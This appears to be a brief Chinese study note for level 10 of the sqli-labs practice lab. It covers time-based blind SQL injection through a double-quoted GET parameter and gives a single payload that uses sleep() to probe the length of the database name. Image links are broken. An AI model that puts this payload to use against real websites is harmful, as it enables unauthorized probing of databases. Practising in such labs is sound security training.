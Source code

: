 title: sql-labs 10关

**Less-10** GET - Blind - Time based - double quotes (基于时间的双引号盲注)

注入语句：id=1" and if(length(database())>7 ,sleep(5),1) --+

![image-20220330101130633](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330101130633.png)